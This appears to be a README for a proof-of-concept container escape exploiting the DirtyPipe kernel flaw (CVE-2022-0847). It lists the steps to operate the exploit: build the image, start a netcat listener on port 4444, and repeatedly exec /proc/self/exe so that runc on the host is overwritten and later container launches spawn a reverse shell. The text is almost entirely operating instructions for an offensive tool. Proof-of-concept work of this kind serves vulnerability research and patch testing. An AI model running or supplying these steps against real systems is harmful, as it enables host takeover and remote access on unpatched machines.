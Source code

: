 # DirtyPipe PoC
Container Escape PoC for CVE-2022-0847 "DirtyPipe"

## Usage
1. Build
```
$ docker build -t dirtypipe .
$ docker run --name dirtypipe -it dirtypipe
```

2. Start listener in another terminal:
`$ nc -nlvp 4444`

3. In yet another terminal (may need to be repeated a few times):
```
$ docker exec -it dirtypipe /proc/self/exe
```

4. Once runc is overwritten, run any container (or exec again). Reverse shell should be triggered.
```
$ docker run -it ubuntu:latest
```

## Screenshots
![image](https://user-images.githubusercontent.com/85519958/157522451-6b26a3a2-950c-4350-aa37-35987b7d4199.png)
